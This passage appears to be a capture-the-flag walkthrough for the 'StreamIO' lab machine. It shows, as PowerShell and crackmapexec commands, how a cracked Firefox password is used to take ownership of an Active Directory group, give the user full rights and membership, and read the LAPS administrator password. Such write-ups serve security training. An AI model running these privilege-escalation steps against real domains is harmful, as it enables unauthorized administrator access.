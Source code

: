 https://github.com/lclevy/firepwd

<img src="https://i.imgur.com/T6RiQWt.png"/>

<img src="https://i.imgur.com/4ey9LuD.png"/>

Brute forcing the passwords we'll get `JDg0dd1s@d0p3cr3@t0r` as the correct password

<img src="https://i.imgur.com/Ki9DoL6.png"/>

Jdgodd isn't in remote desktop user so we can't get a shell or execute commands but we can use the credentials in the process as this user is WriteOwner of `Core Staff` group

First we'll need to create a credential object so that credentials can be used in the process

```powershell
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
 
 
 $Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword)
 
```

Next use powerview to make the user the owner of the group

```powershell

 Set-DomainObjectOwner -Credential $Cred -Identity "CORE STAFF" -OwnerIdentity "JDgodd"
 ```

<img src="https://i.imgur.com/Plm6Xh3.png"/>


Adding all rights to the group

```powershell
Add-DomainObjectAcl -TargetIdentity "CORE STAFF" -PrincipalIdentity JDgodd -Rights All -Verbose -Credential $Cred
```

<img src="https://i.imgur.com/oDm6zJ2.png"/>

Adding Jdogdd to the group as the member 

```powershell
Add-DomainGroupMember -Identity 'CORE STAFF' -Members 'JDgodd' -Credential $cred -Verbose
```

<img src="https://i.imgur.com/u8Ut6sB.png"/>

Now we can read LAPS password through crackmapexec and can login as the administrator

```bash
cme ldap streamio.htb -d streamio.htb -u 'JDgodd' -p 'JDg0dd1s@d0p3cr3@t0r' -M laps
```

<img src="https://i.imgur.com/uGMtkTp.png"/>
